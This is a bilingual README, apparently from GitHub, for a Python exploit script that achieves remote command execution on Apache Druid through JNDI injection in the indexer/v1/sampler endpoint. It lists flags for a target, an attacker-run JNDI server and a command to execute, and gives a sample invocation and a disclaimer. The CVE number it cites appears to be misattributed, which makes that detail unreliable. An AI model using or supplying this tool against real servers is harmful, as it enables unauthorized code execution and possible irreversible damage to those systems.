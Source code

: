 # Apache Druid JNDI Vulnerable
Druid JNDI 注入漏洞利用脚本
本项目是一个利用 Druid JNDI 注入漏洞的 Python 脚本。该漏洞存在于 Druid 的 indexer/v1/sampler 接口中，攻击者可以通过构造恶意请求，在目标服务器上执行任意命令。该漏洞的 CVE 编号为 CVE-2021-38645。

This project is a Python script that exploits the Druid JNDI injection vulnerability. The vulnerability exists in the indexer/v1/sampler interface of Druid, allowing an attacker to execute arbitrary commands on the target server by constructing a malicious request. The CVE number for this vulnerability is CVE-2021-38645.

使用方法
使用该脚本需要提供以下参数：

-t 或 --target：目标服务器的 IP 地址或主机名；
-j 或 --jndi-ip：JNDI 服务器的 IP 地址；
-c 或 --cmd：要执行的命令。
示例：

bash
Copy
python druid.py -t 192.168.0.1 -j 192.168.0.2 -c "touch /tmp/success"
使用该脚本需要先安装 Python 3 和 requests 库。

注意事项
该脚本仅用于授权的渗透测试或教育目的，禁止用于非法用途；
在使用该脚本时，请务必遵守当地法律法规和道德准则，自行承担使用该脚本所造成的风险和后果；
该脚本可能会对目标服务器造成不可逆的损害，请谨慎使用。

Druid JNDI Injection Exploit Script
This project is a Python script that exploits the Druid JNDI injection vulnerability. The vulnerability exists in the indexer/v1/sampler interface of Druid, allowing an attacker to execute arbitrary commands on the target server by constructing a malicious request. The CVE number for this vulnerability is CVE-2021-38645.

Usage
To use this script, you need to provide the following parameters:

-t or --target: the IP address or hostname of the target server;
-j or --jndi-ip: the IP address of the JNDI server;
-c or --cmd: the command to execute.
Example:

bash
Copy
python druid.py -t 192.168.0.1 -j 192.168.0.2 -c "touch /tmp/success"
To use this script, you need to install Python 3 and the requests library first.

Disclaimer
This script is for authorized penetration testing or educational purposes only. It is strictly prohibited to use it for illegal purposes;
When using this script, please comply with local laws and regulations, and ethical standards. You are solely responsible for the risks and consequences caused by using this script;
This script may cause irreversible damage to the target server. Use it at your own risk.
